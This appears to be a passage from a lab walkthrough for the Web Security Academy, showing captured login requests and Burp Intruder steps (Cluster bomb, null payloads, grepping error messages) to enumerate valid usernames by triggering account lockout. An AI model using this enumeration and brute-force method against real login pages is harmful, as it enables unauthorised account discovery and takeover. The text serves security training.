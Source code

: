 The site doesn't respond with other responses if any of these are incorrect. The login POST request looks like this.

```
POST /login HTTP/2
Host: 0a310002037f20b5c09d63ec00d10037.web-security-academy.net
Cookie: session=nfP2lTCMEqD9aR8QdFkCPA7BTRjL4azt
Content-Length: 31
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a310002037f20b5c09d63ec00d10037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

username=carlos&password=peterr
```

send this request to burp intruder and add Payload Position to the username and the password after some random value. The request should look like the following

```
POST /login HTTP/2
Host: 0a310002037f20b5c09d63ec00d10037.web-security-academy.net
Cookie: session=nfP2lTCMEqD9aR8QdFkCPA7BTRjL4azt
Content-Length: 31
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a310002037f20b5c09d63ec00d10037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

username=§carlos§&password=random_value§§
```

In `Attack type` select `Cluster bomb` and go to the `Payloads` section. For Payload Set `1` use payload type to simple list and load the username list. For Payload Set `2` select Payload type to `Null payload` and generate `5` payloads and start the attack.

This will send 5 requests for one username and if they are correct we should see any other response than `Invalid username and password.` To filter that we can go to the `Options` section of the intruder and there on the `Grep - Extract` section click on Add button when the pop showed there click on `fetch Response` and scroll down and highlight the error message `Incorrect username and password.` and click OK.
